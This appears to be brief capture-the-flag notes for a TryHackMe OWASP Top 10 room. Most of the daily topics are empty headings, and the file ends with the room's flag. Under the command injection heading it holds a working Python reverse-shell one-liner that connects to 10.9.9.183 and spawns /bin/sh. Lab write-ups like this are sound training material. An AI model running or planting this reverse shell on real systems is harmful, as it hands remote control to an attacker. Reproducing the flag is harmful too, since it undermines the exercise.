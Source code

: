 # OWASP TOP 10

## Day 1 : Command Injection

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.9.183",3301));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"])
```

## Day 2 : Broken Authentication

## Day 3 : Sensitive data exposure

## Day 4 : XML External Entity

## Day 5 : Broken Access Control

## Day 6 : Security Misconfiguration

## Day 7 : Cross-site Scripting

## Day 8 : Insecure Deserialization

THM{compl3ted_the_quiz}
